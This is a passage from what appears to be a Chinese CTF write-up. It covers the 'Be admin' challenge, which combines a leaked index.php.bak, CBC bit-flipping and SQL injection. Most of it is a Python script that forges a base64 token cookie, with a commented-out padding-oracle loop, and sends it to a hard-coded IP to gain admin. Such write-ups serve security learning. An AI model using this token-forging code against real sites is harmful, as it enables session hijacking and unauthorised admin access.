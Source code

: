 没啥说的，就把md5改成了sha1

## Be admin ##

存在index.php.bak,cbc反转加密。配合sql注入。

题目不是我做的，所以不多扯了，贴上脚本

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

import base64
import requests
import urllib

aa = ')\xa5\xa1\xec>)F\x119\xbc\xfcor\x11\xd9\xa4'
url = "http://218.2.197.235:23737/"
cookie = {"PHPSESSID":"qe6s9hjkpqrfcv07hf1ous71m7"}

iv = ["\x00"]*16
cipher = ['\x00', 236, 46, 92, 100, 49, 71, 211, 255, 106, 69, 3, 16, 13, 233, 54]

plain = "admin"
plain += 11*chr(11)
plain = list(plain)

# for i in xrange(16,17):
# 	for j in xrange(1,i):
# 		iv[16-i+j] = chr(cipher[16-i+j] ^ i)
# 	for x in xrange(218,256):
# 		iv[16-i] = chr(x)
# 		tmp_iv = "".join(iv)
# 		cookie['token'] = urllib.quote(base64.b64encode(tmp_iv))
# 		print cookie
# 		try:
# 			r = requests.get(url, cookies=cookie)
# 			print "%s"%x, r.content
# 		except:
# 			print cipher
# 			print x
# 			exit();
# 		if "ctfer!" in r.content:
# 			break
# 	else:
# 		print cipher
# 		exit();
# 	cipher[16-i] = x ^ i
# 	break

# print cipher

# for x in cipher:
# 	print hex(x)

plain = ['a', '\x88', 'C', '5', '\n', ':', 'L', '\xd8', '\xf4', 'a', 'N', '\x08', '\x1b', '\x06', '\xe2', '=']

for x in xrange(193,256):
	plain[0] = chr(x)
	tmp_p = "".join(plain)
	cookie['token'] = urllib.quote(base64.b64encode(tmp_p))
	r = requests.get(url, cookies=cookie)
	print x
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png